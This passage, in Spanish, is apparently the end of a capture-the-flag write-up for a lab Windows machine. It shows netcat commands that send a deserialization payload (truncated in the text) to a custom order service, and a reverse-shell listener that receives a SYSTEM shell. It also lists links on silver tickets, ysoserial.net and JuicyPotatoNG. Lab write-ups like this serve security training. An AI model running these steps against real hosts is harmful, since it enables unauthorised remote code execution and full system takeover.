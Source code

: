 Abre otra **netcat** apuntando al servidor:
```bash
nc 10.10.11.168 4411
SCRAMBLECORP_ORDERS_V1.0.3;
```

Copia el código resultante en la **netcat** del servidor, agrégale el comando `UPLOAD_ORDER;` y ejecútalo:
```bash
nc 10.10.11.168 4411
SCRAMBLECORP_ORDERS_V1.0.3;
UPLOAD_ORDER;AAEAAAD///....
...
...

```
Aunque te marque un error, el comando sí se ejecutó.

Ve el resultado:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.11.168] 61214
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Y listo, ya con esto completamos la máquina.

Si bien podemos usar el **JuicyPotatonNG** para escalar privilegios siendo el **usuario sqlsvc**, en mi caso no se pudo.

No sé si porque hayan inhabilitado esta opción o porque no funciona, pero de que se podía, se podía.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket
* https://www.hackingarticles.in/domain-persistence-silver-ticket-attack/
* https://learn.microsoft.com/es-es/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16
* https://github.com/Hackplayers/evil-winrm#Remote-path-completion
* https://github.com/jborean93/omi
* https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py
* https://codebeautify.org/ntlm-hash-generator
* https://github.com/antonioCoco/JuicyPotatoNG?tab=readme-ov-file
* https://decoder.cloud/2022/09/21/giving-juicypotato-a-second-chance-juicypotatong/
* https://github.com/pwntester/ysoserial.net
* https://github.com/attackdebris/kerberos_enum_userlists

